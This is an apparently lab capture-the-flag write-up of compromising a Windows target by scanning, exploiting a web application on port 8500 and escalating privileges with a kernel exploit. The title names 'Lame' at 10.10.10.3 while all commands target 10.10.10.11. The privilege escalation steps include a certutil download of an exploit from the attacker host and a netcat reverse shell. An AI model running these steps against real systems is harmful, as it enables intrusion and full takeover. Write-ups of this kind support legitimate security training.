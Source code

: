 # ****10.10.10.3 - Lame****

```bash
rustscan -a 10.10.10.11 --ulimit 5000
```
![image](https://github.com/lufffe/Writeups/assets/90646635/f116e3b2-f0d5-477f-9624-492d78f96a5c)

```bash
nmap -A 10.10.10.11 -Pn
```
![image](https://github.com/lufffe/Writeups/assets/90646635/c1d3775c-ccc7-466f-9b64-95b841fa3f00)

> http://10.10.10.11:8500/
> 
![image](https://github.com/lufffe/Writeups/assets/90646635/1e20e059-f828-4e87-8f76-690b56aad4e9)

https://www.exploit-db.com/exploits/50057
![image](https://github.com/lufffe/Writeups/assets/90646635/3628b5a0-bc66-44a2-bad9-330a77538013)

mudar lhost

http://10.10.10.11:8500/userfiles/file/nomedoarquivo
![image](https://github.com/lufffe/Writeups/assets/90646635/d9dd529d-6c8e-4425-94cd-9c25865922eb)

c:\Users\tolis\Desktop>
```bash
type user.txt
```

```bash
python [windows-exploit-suggester.py](http://windows-exploit-suggester.py) —update
```

```bash
python [windows-exploit-suggester.py](http://windows-exploit-suggester.py/) --database 2024-01-11-mssb.xlsx --systeminfo systeminfo.txt
```

![image](https://github.com/lufffe/Writeups/assets/90646635/e43e3080-efa6-4ffc-9457-153830745231)

https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe

```bash
python -m http.server 80
```

```bash
cd c:\Users\tolis\Desktop
```

```bash
certutil -urlcache -split -f "http://10.10.14.6/MS10-059.exe" app.exe
```

```bash
sudo nc -lnvp 443
```

```bash
app.exe 10.10.14.6 443
```
![image](https://github.com/lufffe/Writeups/assets/90646635/bf04f2fd-620d-43ca-828a-28edfef411de)

c:\Users\Administrator\Desktop>

```bash
type root.txt
```
